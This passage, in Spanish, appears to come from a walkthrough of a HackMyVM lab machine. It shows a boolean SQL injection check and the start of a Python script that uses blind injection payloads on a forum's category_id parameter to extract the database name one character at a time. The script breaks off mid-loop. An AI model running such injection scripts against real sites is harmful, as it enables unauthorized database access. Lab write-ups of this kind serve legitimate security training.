 Si ponemos una consulta que no es verdadera el mensaje desaparece.
```bash
1 and 2=1 # Falso
```
![](/assets/img/literal/desa.png)

Por tanto ya tenemos una via atraves de la cual ir dumpeando los datos que nos interesen.

Para toda la inyeccion voy a crear un script de python que se encargue de dumpearme los datos, el cual en base a lo que queramos dumpear tenemos que ir modificando.

Este se va a encargar de dumpearme el nombre de la base de datos actualmente en uso.

```python
#!/usr/bin/python3

import signal, time, requests, string
from pwn import *

def ctrl_c(sig, frame):

    print("\n\n[!] Saliendo.\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables
url = 'http://forumtesting.literal.hmv/category.php?category_id='
characters = string.ascii_lowercase + string.digits + '_-'

def makeRequest():
    
    database = ''
    
    l1 = log.progress('Aplicando fuerza Bruta :')
    
    l2 = log.progress('Database:')

    lengt = 20

    for position in range(1,20):

        for character in characters:
            

            payload = "1 and if(substring(database(),%d,1)='%c',sleep(0),1)" % (position, character)

            l1.status('Probando con el caracter {} [{}/{}]'.format(character, position, lengt))
            
```